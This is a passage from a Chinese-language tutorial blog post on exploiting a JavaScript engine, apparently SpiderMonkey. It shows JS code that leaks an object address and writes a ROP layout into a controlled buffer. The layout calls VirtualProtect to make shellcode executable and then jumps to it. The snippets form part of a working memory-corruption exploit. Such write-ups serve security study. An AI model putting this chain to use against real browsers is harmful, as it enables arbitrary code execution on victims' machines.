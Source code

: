 ``` js
    // leak target address:
    console.log("Target Address at: " + TargetAddress);    
```

再dump一下, 我们发现rdx指向的刚好是`Target`对象的地址. 之后是`0x38`. Wait! 又是`0x38`, 我们之前说过`0x38`用于存储用户的数据, 所以如果我们可以控制`TargetAddress`的数据, 我们就能够控制`RSP`. 接下来就是我们的构造代码(可以看前面我们期待的布局, 此处是一一对应的):

``` js
    const r9_value = new Int64(shellcodeObjAddr);
	const r8_value = new Int64("40");
	const rdx_value = new Int64("1000");
	const rcx_value = shellcodeFuncAddr;
	const retValue_one = virtualProtect_func_Addr;
	const retValue_two = shellcodeFuncAddr;

	Target.set(rcx_value.bytes(), 8 * 0);
	Target.set(rdx_value.bytes(), 8 * 1);
	Target.set(r8_value.bytes(), 8 * 2);
	Target.set(r9_value.bytes(), 8 * 3);
	Target.set(retValue_one.bytes(), 8 * 4);
	Target.set(retValue_two.bytes(), 8 * 5);

```

老实说, 如果依赖于我接下来的讲解, `ROP`这种事, 自己动手调试一遍会有效的多, 从`jmp rax`处下断点, 然后单步调试, 不断的观察堆栈的变化.

## 验证

接下来进行我们的验证:

![](https://github.com/redogwu/Just-pwn-it-for-fun/blob/master/img/img_01/blog_23.gif)

## 相关链接

- [Introduction to SpiderMonkey exploitation.]()
>   [+] 参考了该的利用思路. `poc 代码`

- []

## copyright

>   [+] 本文首发于先知社区

## wjllz's life

`最后, wjllz是人间大笨蛋.`